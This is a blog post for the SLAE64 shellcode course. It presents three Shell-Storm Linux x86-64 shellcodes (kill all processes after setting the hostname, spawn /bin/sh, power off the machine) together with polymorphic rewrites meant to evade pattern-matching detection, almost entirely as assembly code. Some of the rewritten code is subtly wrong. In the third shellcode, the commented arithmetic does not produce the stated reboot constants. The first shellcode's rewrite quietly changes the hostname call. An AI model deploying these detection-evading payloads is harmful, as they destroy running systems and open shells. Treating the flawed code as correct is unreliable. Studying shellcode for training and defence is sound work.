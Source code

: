 # SLAE Assignment #6

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Polymorphic Shellcode1

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-605.php
* Original Size: 33 bytes

Creating a file with the original shellcode:

```
 From: http://shell-storm.org/shellcode/files/shellcode-605.php
; Filename: shellcode1.nasm
; Author:  SLAE64 - 1525
;
; Purpose: sethostname() & killall

; sethostname("Rooted !");
; kill(-1, SIGKILL);

section .text

global _start
 
_start:
 
    ;-- setHostName("Rooted !"); 22 bytes --;
    mov     al, 0xaa
    mov     r8, 'Rooted !'
    push    r8
    mov     rdi, rsp
    mov     sil, 0x8
    syscall
 
    ;-- kill(-1, SIGKILL); 11 bytes --;
    push    byte 0x3e
    pop     rax
    push    byte 0xff
    pop     rdi
    push    byte 0x9
    pop     rsi
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-605.php
; Filename: shellcode1.poly.nasm
; Author:  SLAE64 - 1525
;
; Purpose: sethostname() & killall

; sethostname("Rooted !");
; kill(-1, SIGKILL);
BITS 64

section .text

SYS_SETHOSTNAME equ 0xaa
SYS_KILL equ 0x3e

global _start
 
_start:
    ;-- setHostName("");
    xor r10, r10
    push byte SYS_SETHOSTNAME
    pop rax
    push r10
    push rsp
    pop rdi
        
    syscall
 
    ;-- kill(-1, SIGKILL);
    push byte SYS_KILL
    pop rax
    mov rdi, r10
    not rdi
    mov rsi, r10
    add rsi, 9

    syscall
```

* New size: 30 bytes
* Dimension ratio: 90% of original

## Polymorphic Shellcode2

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-806.php
* Original Size: 27 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-806.php
; Filename: shellcode2.nasm
; Author: SLAE64 - 1525
;
; Purpose: Execute /bin/sh

section .text

    global _start
 
_start:
    ;mov rbx, 0x68732f6e69622f2f
    ;mov rbx, 0x68732f6e69622fff
    ;shr rbx, 0x8
    ;mov rax, 0xdeadbeefcafe1dea
    ;mov rbx, 0xdeadbeefcafe1dea
    ;mov rcx, 0xdeadbeefcafe1dea
    ;mov rdx, 0xdeadbeefcafe1dea
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-806.php
; Filename: shellcode2.nasm
; Author: SLAE64 - 1525
;
; Purpose: Execute /bin/sh
BITS 64
section .text
global _start

SYS_EXECVE equ 0x3b
SH equ 0x68732f6e69622f2f
 
_start:
    sub rax, rax
    mov rdx, rax
    push rax
    mov rbx, SH
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp

    push byte SYS_EXECVE
    pop rax

    syscall
```

* New size: 31 bytes
* Dimension ratio: 114% of original

## Polymorphic Shellcode3

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-602.php
* Original Size: 19 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-602.php
; Filename: shellcode3.nasm
; Author:  SLAE64 - 1525
;
; Purpose: reboot(POWER_OFF)

section .text
    global _start
 
_start:
    mov edx, 0x4321fedc
    mov esi, 0x28121969
    mov edi, 0xfee1dead
    mov al,  0xa9
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-602.php
; Filename: shellcode3.poly.nasm
; Author:  SLAE64 - 1525
;
; Purpose: reboot(POWER_OFF)
BITS 64

section .text
global _start

SYS_REBOOT equ 0xa9
CMD equ 0x4321fedc
 
_start:
    mov edx, CMD
    mov esi, edx
    add esi, 0x1B0FE573 ; 0x28121969
    mov edi, esi
    add edi, 0xD6CFC544 ; 0xfee1dead
    
    push byte SYS_REBOOT
    pop rax
    syscall
```

* New size: 26 bytes
* Dimension ratio: 136% of original